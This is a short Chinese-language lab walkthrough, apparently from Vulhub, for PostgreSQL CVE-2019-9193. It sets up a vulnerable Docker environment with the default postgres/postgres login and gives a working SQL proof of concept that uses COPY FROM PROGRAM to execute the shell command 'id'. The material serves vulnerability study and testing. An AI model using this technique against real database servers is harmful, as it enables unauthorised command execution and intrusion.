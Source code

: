 # PostgreSQL 高权限命令执行漏洞 CVE-2019-9193

## 漏洞描述

PostgreSQL 是一款关系型数据库。其9.3到11版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。

参考链接：

- https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5

## 环境搭建

Vulhub启动存在漏洞的环境：

```
docker-compose up -d
```

环境启动后，将开启Postgres默认的5432端口，默认账号密码为postgres/postgres。

## 漏洞复现

连接数据库：

```
psql --host your-ip --username postgres
```

首先连接到postgres中，并执行参考链接中的POC：

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

`FROM PROGRAM`语句将执行命令id并将结果保存在cmd_exec表中：

![image-20220228144351955](./images/202202281443076.png)

